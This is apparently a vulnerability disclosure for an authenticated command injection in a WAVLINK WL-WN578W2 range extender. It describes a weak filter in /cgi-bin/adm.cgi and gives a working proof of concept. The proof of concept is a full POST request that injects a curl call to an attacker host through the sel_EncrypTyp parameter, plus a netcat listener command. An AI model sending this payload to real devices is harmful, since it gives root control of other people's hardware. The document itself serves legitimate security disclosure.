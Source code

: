 # WAVLINK WL-WN578W2 M78W2\_V221110 Authenticated Command Injection (Filter Bypass in /cgi-bin/adm.cgi)

PS:



1.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.

2.  **Authenticated access required**: Attackers need valid login credentials (e.g., username/password) to send requests to `/cgi-bin/adm.cgi`, but weak input filters can still be bypassed for command injection.

## Overview

An authenticated command injection vulnerability (with filter bypass) exists in `/cgi-bin/adm.cgi` of WAVLINK WL-WN578W2 (firmware M78W2\_V221110). After logging in, attackers can exploit the weak input filter (only blocks 2 characters: `|`, `` ` ``) to bypass restrictions, then inject arbitrary system commands via the `sel_EncrypTyp` parameter. This enables execution of `root`-level commands, leading to full device compromise.



![Vulnerability Overview: Authenticated Filter Bypass Flow](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/zh\_cn/index.html](https://www.wavlink.com/zh_cn/index.html)

*   **Product**: WAVLINK WL-WN578W2 (wireless range extender)

*   **Firmware**: M78W2\_V221110

*   **Firmware Download**: [https://docs.wavlink.xyz/Firmware\_ch/fm-578w2/](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)

*   **Affected Endpoint**: `/cgi-bin/adm.cgi` (POST method, requires login)

*   **Vulnerable Parameter**: `sel_EncrypTyp`

*   **Vulnerability Type**: Authenticated Command Injection (Filter Bypass)

*   **CVE ID**: Pending

*   **Impact**: After login, execute arbitrary `root` commands (exfiltrate sensitive data, plant backdoors, modify device configurations) via filter bypass.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Analysis

#### 1. Weak Input Filter (Bypassable)

The firmware’s `sub_40A91C` function implements a basic input filter, but only blocks two characters:



*   Blocks `|` (pipe) and `` ` `` (backtick) to prevent simple command injection.

*   Ignores common command separators: `;` (semicolon), `&&` (logical AND), `||` (logical OR), `$(` (command substitution).

    After logging in, attackers can use these allowed separators to bypass the filter and inject malicious commands.




#### 2. Command Injection Vector

After successful login, the `sel_EncrypTyp` parameter (extracted from POST requests via `sub_409184`) is directly concatenated into system commands without additional sanitization. Since the weak filter fails to block key separators, attackers can inject arbitrary commands into `sel_EncrypTyp` (e.g., append `; [malicious command] #`), which are executed with `root` privileges.

![Weak Filter Logic Snippet](./imgs/2.png)
![Weak Filter Logic Snippet](./imgs/3.png)
![Weak Filter Logic Snippet](./imgs/4.png)

## Proof of Concept (PoC)

### PoC

#### 1. Prepare for Exploitation



*   Log in to the WAVLINK device via the web interface (e.g., `http://192.168.10.1`), use tools like Burp Suite to capture the login session cookie (e.g., `WAVLINK_SESSIONID=xxxx`).

*   Start a Netcat listener on the attacker machine (IP: 192.168.10.154, Port: 1234) to monitor command execution results:



```
nc -lvnp 1234
```

#### 2. Visit wizard_rep.shtml and Send  POST Request:

Visit wizard_rep.shtml

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: wifi.wavlink.com
Content-Length: 728
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://wifi.wavlink.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://wifi.wavlink.com/wizard_rep.shtml
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=wzdrepeater&select=sel2&sel_Automode=WPA2PSK&sel_EncrypTyp=AES;curl http://192.168.10.154:1234#&wlan_ssid=a827&wlan_bssid=34%3A0a%3A98%3A1a%3A6e%3Aac&wlan_signal=100&wlan_channel=9&wlan_index=2&wlan_wepkey=&wepKeyLen0=&format0=&key0=&pskFormat0=0&pskValue0=&ciphersuite0=&wpa2ciphersuite0=&wepKeyLen1=&length1=&format1=&key1=&pskFormat1=&pskValue1=&ciphersuite1=&wpa2ciphersuite1=&submit-url=%2Fcountdown.htm%3Fsettp%3D5&submit-value=&static_en=0&hostname=&skiplist1=12%3B13%3B14%3B&skiplist2=&skiplist3=&manual_pw=&Model=repeater&rep_type=0&web_pskValue=jm912558&wl_rep_ssid2g=a827_EXT&wl_rep_ssid5g=&wl_rep_ssid5g_2=&ssid2g_input=&Channel=&SECURITYMODE=NONE&wl_key=&wl_rep_ssid2=&wl_rep_ssid5=&INPUTTYPE=0&repeater_mode=0
```




#### 3. Verify Command Execution

The Netcat listener receives a request from the device’s IP (e.g., 192.168.10.1), confirming that the injected `curl` command was executed successfully (filter bypass and authenticated command injection work):



![Step 3: Netcat Captures Execution Result](./imgs/5.png)

